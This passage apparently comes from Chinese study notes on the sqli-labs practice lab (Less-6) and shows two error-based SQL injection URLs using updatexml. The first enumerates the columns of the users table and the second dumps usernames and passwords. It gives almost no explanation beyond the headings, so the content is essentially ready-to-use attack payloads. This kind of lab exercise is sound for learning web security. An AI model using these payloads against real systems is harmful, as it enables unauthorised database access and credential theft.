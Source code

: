 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604180146897.png" alt="image-20230604180146897" style="zoom:50%;" />

#### 爆字段

```
http://192.168.231.129:9001/Less-6/?id=1" and updatexml(1,concat(0x7e, (select substring(group_concat(column_name),1,30) from information_schema.columns where table_schema=database() and table_name='users')),3)%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230604180238548.png" alt="image-20230604180238548" style="zoom:50%;" />

#### 拖库

```
http://192.168.231.129:9001/Less-6/?id=1" and updatexml(1,concat(0x7e, (select substring(group_concat(username,'~',password),1,30) from users)),3)%23
```
